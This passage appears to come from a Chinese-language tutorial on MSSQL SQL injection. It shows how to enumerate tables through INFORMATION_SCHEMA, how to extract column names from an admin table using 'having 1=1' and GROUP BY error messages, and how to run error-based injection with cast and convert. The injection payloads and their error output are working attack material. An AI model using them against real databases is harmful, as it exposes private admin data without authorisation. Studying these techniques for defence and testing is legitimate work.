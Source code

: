 ```mssql
在将 varchar 值 '81FAAEN52MA16VBYT4Y1JJ3552BTC1640E7CF84345C86BA6' 转换成数据类型 int 时失败。
```

当然，在mssql中也存在`INFORMATION_SCHEMA`，你也可以通过它来查询。

```mssql
select * from INFORMATION_SCHEMA.TABLES
select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'
and 1=(select top 1 table_name from information_schema.tables);--
```

判断表名更方便的一种方式是使用`having 1=1`，`GROUP BY`

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 having 1=1
```

```mssql
选择列表中的列 'Fanmv_Admin.AdminID' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。
```

爆出一列，将其用group by 拼接进去继续往后爆其他的

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 GROUP BY AdminID having 1=1
```

```mssql
选择列表中的列 'Fanmv_Admin.IsSystem' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。
```

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 GROUP BY AdminID,IsSystem having 1=1
```

```mssql
选择列表中的列 'Fanmv_Admin.AdminName' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。
```

以此爆出所有字段

# 报错注入

其实基本注入流程中用到的就是报错注入，mssql中没有报错函数，报错注入利用的就是显式或隐式的类型转换来报错

先来看隐式报错

```mssql
select * from admin where id =1 and (select user)>0
```

user和0进行比较时就会报错

再来看显示报错，一般上显示报错用到的是`cast`和`convert`函数

```mssql
select * from admin where id =1 (select CAST(USER as int))
select * from admin where id =1 (select convert(int,user))
```

这里再来引入一个`declare`
